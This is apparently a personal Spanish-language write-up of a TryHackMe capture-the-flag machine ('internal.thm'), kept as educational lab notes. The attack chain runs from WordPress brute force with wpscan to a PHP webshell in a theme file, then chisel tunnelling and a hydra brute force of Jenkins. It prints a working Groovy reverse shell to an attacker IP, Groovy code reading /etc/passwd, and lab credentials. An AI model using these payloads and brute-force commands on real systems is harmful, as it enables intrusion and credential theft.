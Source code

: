 Hacemos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230819113625.png]]
Y vemos lo que corre sobre el puerto 80:
![[Mis apuntes/ANEXOS/Pasted image 20230819113722.png]]
Probamos en hacer fuzzing y vemos una serie de directorios, donde además nos encontramos con un wordpress:
![[Mis apuntes/ANEXOS/Pasted image 20230819114104.png]]
Visualizamos la base de datos phpmyadmin:
![[Mis apuntes/ANEXOS/Pasted image 20230819114138.png]]
Y si vamos al directorio blog vemos que no carga bien:
![[Mis apuntes/ANEXOS/Pasted image 20230819113933.png]]
Por tanto vamos a añadir el internal.thm al /etc/hosts:
![[Mis apuntes/ANEXOS/Pasted image 20230819114021.png]]
Y ya carga bien:
![[Mis apuntes/ANEXOS/Pasted image 20230819114053.png]]
Ahora vamos a probar en hacer otro escaneo dentro de este wordpress con gobuster, donde encontramos varios directorios; y entre ellos un panel de login:
![[Mis apuntes/ANEXOS/Pasted image 20230819114258.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230819114430.png]]
Con wpscan probamos en hacer una enumeración, donde vemos que nos encuentra el usuario admin:
```bash
wpscan --url http://internal.thm/blog --enumerate u,vp
```
![[Mis apuntes/ANEXOS/Pasted image 20230819114644.png]]
Por tanto ahora vamos a hacer un ataque de fuerza bruta con wpscan de la siguiente forma:
```bash
wpscan --url http://internal.thm/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
Y vemos que la contraseña es la siguiente:
```bash
admin:my2boys
```
![[Mis apuntes/ANEXOS/Pasted image 20230819115042.png]]
Por tanto iniciamos sesión con estas credenciales:
![[Mis apuntes/ANEXOS/Pasted image 20230819114917.png]]
Una vez dentro, en appearance y luego en theme editor, vemos que podemos colar una webshell:
![[Mis apuntes/ANEXOS/Pasted image 20230819114955.png]]
Podemos insertarlo en el 404 template:
![[Mis apuntes/ANEXOS/Pasted image 20230819115022.png]]
Por tanto preparamos el php malicioso de pentest monkey poniendo la IP y puerto de atacante:
![[Mis apuntes/ANEXOS/Pasted image 20230819115125.png]]
Y lo pegamos dentro del wordpress en el footer.php:
![[Mis apuntes/ANEXOS/Pasted image 20230819115524.png]]
De tal forma que si accedemos a internal.thm/blog/ nos habremos enviado la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230819115639.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230819115647.png]]
Intentamos acceder al usuario aubreanna pero no podemos:
![[Mis apuntes/ANEXOS/Pasted image 20230819115736.png]]
Si miramos dentro del directorio /opt, vemos que tenemos las credenciales del usuario aubreanna:
```
aubreanna:bubb13guM!@#123
```
![[Mis apuntes/ANEXOS/Pasted image 20230819115820.png]]
Probamos en acceder vía ssh y ya estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230819115918.png]]
Una vez dentro, nos encontramos con un archivo que dice que está corriendo un jenkins en una IP por el puerto 8080:
![[Mis apuntes/ANEXOS/Pasted image 20230819120025.png]]
Vemos que efectivamente existe esta IP:
![[Mis apuntes/ANEXOS/Pasted image 20230819125930.png]]
Si queremos llegar a esta IP tenemos que usar chisel, por lo que lo compartimos con la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230819120141.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230819120150.png]]
En nuestra máquina atacante, nos ponemos en escucha con chisel por el puerto 8001, que es donde está corriendo el servicio jenkins en la máquina víctima:
```bash
./chisel server --reverse -p 8001
```
![[Mis apuntes/ANEXOS/Pasted image 20230819120303.png]]
Y ahora en la máquina víctima quiero decir que el puerto 8080 de la máquina víctima se convierta en el 443 de mi máquina atacante; y todo esto enviándose por el puerto 8001 que es donde estará chisel escuchando:
```bash
./chisel client 10.8.100.91:8001 R:443:127.0.0.1:8080
```
![[Mis apuntes/ANEXOS/Pasted image 20230819121805.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230819121812.png]]
Y ahora si accedemos al puerto 443 de mi máquina local, veremos que hay un jenkins corriendo:
![[Mis apuntes/ANEXOS/Pasted image 20230819121850.png]]
Si queremos hacer un ataque de fuerza bruta, tendremos que interceptar la petición http con burp suite y atacar con hydra:
![[Mis apuntes/ANEXOS/Pasted image 20230819122055.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230819122106.png]]
Por tanto estos parámetros los ponemos en el hydra, aunque primero debemos tomar nota del mensaje de error que sale en el jenkins para que hydra sepa cuando un intento es fallido:
![[Mis apuntes/ANEXOS/Pasted image 20230819122803.png]]
Y ahora ya podemos lanzar el ataque con estos parámetros:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 443 -f http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'
```
Y nos encuentra la contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230819123039.png]]
```
admin:spongebob
```
Y estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230819123124.png]]
En jenkins hay un apartado que es para ejecutar plugins que se llama script console, el cual está dentro de manage jenkins:
![[Mis apuntes/ANEXOS/Pasted image 20230819123216.png]]
Y aquí una vez dentro, tenemos que leer el contenido del archivo que queramos pero en lenguaje java, el cual nos puede ayudar chatgpt:
![[Mis apuntes/ANEXOS/Pasted image 20230819123423.png]]
Este es el código generado:
```bash
def filePath = '/etc/passwd'

try {
    def fileContents = new File(filePath).text
    println("Contenido del archivo:\n$fileContents")
} catch (Exception e) {
    println("Error al leer el archivo: ${e.message}")
}
```
Y vemos que nos lee el contenido:
![[Mis apuntes/ANEXOS/Pasted image 20230819123452.png]]
Probamos ahora con la ejecución del comando ls, con la ayuda de chatgpt:
![[Mis apuntes/ANEXOS/Pasted image 20230819124133.png]]
```bash
def command = 'ls'

try {
    def process = command.execute()
    process.waitFor()
    
    if (process.exitValue() == 0) {
        def output = process.text
        println("Salida del comando $command:\n$output")
    } else {
        def errorOutput = process.err.text
        println("Error al ejecutar el comando $command:\n$errorOutput")
    }
} catch (Exception e) {
    println("Error al ejecutar el comando $command: ${e.message}")
}
```
![[Mis apuntes/ANEXOS/Pasted image 20230819124153.png]]
De todos modos si miramos por internet, en esta web tenemos unas instrucciones de un código para enviarnos la reverse shell:
```bash
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
```
![[Mis apuntes/ANEXOS/Pasted image 20230819125513.png]]
```bash
String host="10.8.100.91";
int port=444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Lo ejecutamos y recibimos la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230819125549.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230819125559.png]]
Y vemos que efectivamente estamos dentro del jenkins:
![[Mis apuntes/ANEXOS/Pasted image 20230819125625.png]]
Y dentro de /opt nos encontramos con una nota:
![[Mis apuntes/ANEXOS/Pasted image 20230819125703.png]]
Donde tenemos una contraseña de root:
```
root:tr0ub13guM!@#123
```
Y podemos entrar vía ssh como root a la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230819125824.png]]
